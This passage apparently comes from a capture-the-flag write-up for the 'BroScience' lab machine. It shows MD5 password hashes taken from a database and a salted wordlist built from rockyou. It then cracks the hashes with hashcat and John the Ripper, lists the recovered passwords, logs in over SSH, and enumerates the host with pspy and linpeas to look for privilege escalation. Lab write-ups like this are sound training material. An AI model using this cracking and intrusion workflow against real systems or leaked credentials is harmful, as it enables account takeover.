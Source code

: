```shell
administrator | 15657792073e8a843d4f91fc403454e1 
bill          | 13edad4932da9dbb57d9cd15b66ed104
michael       | bd3dad50e2d578ecba87d5fa15ca5f85 
john          | a7eed23a7be6fe0d765197b1027453fe 
dmytro        | 5d15340bded5b9395d5d14b9c21bc82b 
\q

# prepare the above ready for cracking and save as broscience.hash
administrator:15657792073e8a843d4f91fc403454e1 
bill:13edad4932da9dbb57d9cd15b66ed104
michael:bd3dad50e2d578ecba87d5fa15ca5f85 
john:a7eed23a7be6fe0d765197b1027453fe 
dmytro:5d15340bded5b9395d5d14b9c21bc82b 
```
The passwords are salted with `NaCl` prefix as revealed by the `login.php` file. So we generate a specialised wordlist.

```shell
# crafted wordlist 
sed 's/^/NaCl/' /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt > broscience_wordlist.txt

# since the code already hinted we are dealing with md5 hashtype let's crack on
# with hashcat
hashcat -m 0 --username broscience.hash broscience_wordlist.txt -O
hashcat -m 0 --username broscience.hash --show
#--snip--#
bill:13edad4932da9dbb57d9cd15b66ed104:NaCliluvhorsesandgym
michael:bd3dad50e2d578ecba87d5fa15ca5f85:NaCl2applesplus2apples
dmytro:5d15340bded5b9395d5d14b9c21bc82b:NaClAaronthehottest

# with john the ripper
john --list=format-details --format=Raw-MD5
john -w:broscience_wordlist.txt broscience.hash --format=Raw-MD5
john broscience.hash --format=Raw-MD5 --show
---snip---
bill:NaCliluvhorsesandgym
michael:NaCl2applesplus2apples
dmytro:NaClAaronthehottest

# from earlier directory traversal information disclosure we know that root, bill and postgres users have shell login in this machine.
# now drop into the machine as user bill
ssh bill@broscience.htb          # submit password on prompt: iluvhorsesandgym
ls -lah                          # list all content
cat user.txt                     # capture the user flag.
```

#### Escalation
```bash				       
sudo -l					# users sudo right - none

# upload linpeas.sh and pspy
chmod +x pspy      
./pspy | tee -a psout    # pspy investigation
---snip---
CMD: UID=0    PID=32917  | /bin/bash /root/cron.sh 
CMD: UID=0    PID=32918  | timeout 10 /bin/bash -c /opt/renew_cert.sh /home/bill/Certs/broscience.crt

chmod +x linpeas.sh 
./linpeas.sh | tee -a linout    # linpeas investigation
---snip---
╣ Unexpected in /opt (usually empty)
```